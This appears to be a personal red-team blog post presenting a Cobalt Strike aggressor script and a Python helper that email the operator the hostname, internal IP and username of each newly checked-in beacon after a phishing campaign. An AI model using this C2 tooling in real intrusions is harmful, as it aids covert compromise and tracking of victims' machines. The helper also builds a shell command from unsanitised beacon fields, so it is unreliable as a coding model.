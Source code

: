 ```yaml
---
layout: post
title: "Cobalt Strike Aggressor Script"
permalink: "cobaltscripts"
date: 14-07-2023
categories: Blog
---
```


Over the past few days I have been trying to get back into playing around with Cobalt Strike to up my Red Teaming game. As part of that, and to get some practice, I thought I would try to write a simple aggressor script.

The sole purpose of the script would be to email me when a beacon checks in. I imagine after a phishing campaign is sent out, you don't want to be sitting by your screen constantly waiting for a beacon, so this might make life easier.

The two pieces of code required are:

- An aggressor script loaded into Cobalt Strike to monitor when a beacon checks in. This I simply called 'email.cna'.
- A Python script named 'emailme.py' that is called by the aggressor script to send an email on check in.


### Scripts

The aggressor script can be seen below, and is simply placed within the 'on beacon_initial' function which gets called on beacon check in. It then extracts some fields of interest from the beacon such as the IP, computer name and username and passes them to the Python email script.

**email.cna:**
{% highlight powershell %}
on beacon_initial {
    println("Initial Beacon Checkin: " . $1 . " PID: " . beacon_info($1,"pid"));

    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1,"internal")," ","_");
    $computerName = replace(beacon_info($1,"computer")," ","_");
    $userName = replace(beacon_info($1,"user")," ","_");
    $cmd = '/home/kali/emailme.py --computername ' . $computerName . " --internalip " . $internalIP . " --username " . $userName;
    exec($cmd);
}
{% endhighlight %}


Next up we have to build the Python script which I have also shown below. It is quite self explanatory but I guess some mail providers might require app passwords and the like, such as Gmail which might make it trickier.
If this is the case try to use a more basic email account if you have one that maybe offers you more control.


**emailme.py:**
{% highlight powershell %}
#!/usr/bin/env python  

import smtplib
import argparse
from email.mime.text import MIMEText

parser = argparse.ArgumentParser(description='beacon info')
parser.add_argument('--computername')
parser.add_argument('--internalip')
parser.add_argument('--username')
args = parser.parse_args()
computername = args.computername
internalip = args.internalip
username = args.username  

subject = "New Beacon Checkin"
body = "Checkin from Beacon with hostname:" + computername + ", with IP: " + internalip + " and from user: " + username
sender = "yourname@youremail.org"
recipients = ["test@testreceipt.com"]
password = "YourPassword"

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)
    with smtplib.SMTP_SSL('smtp.yoursmtp.com', 465) as smtp_server:
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Message sent!")


send_email(subject, body, sender, recipients, password)
{% endhighlight %}


Finally the last thing to do is to load the Aggressor script into Cobalt Strike as shown below, by using the 'Script Manager' window.


<img alt="cs" src="/assets/img/CNA-LOADED.jpg"/>


The next time a beacon checks in you should receive an email that it has done so. This has been fun playing around with CS again and hopefully this saves you some time.

I think next up I might build a complete C2 infrastructure on Azure, with redirectors back to my C2 hosted elsewhere, just to practice that aspect of Red Teaming. Stay tuned!
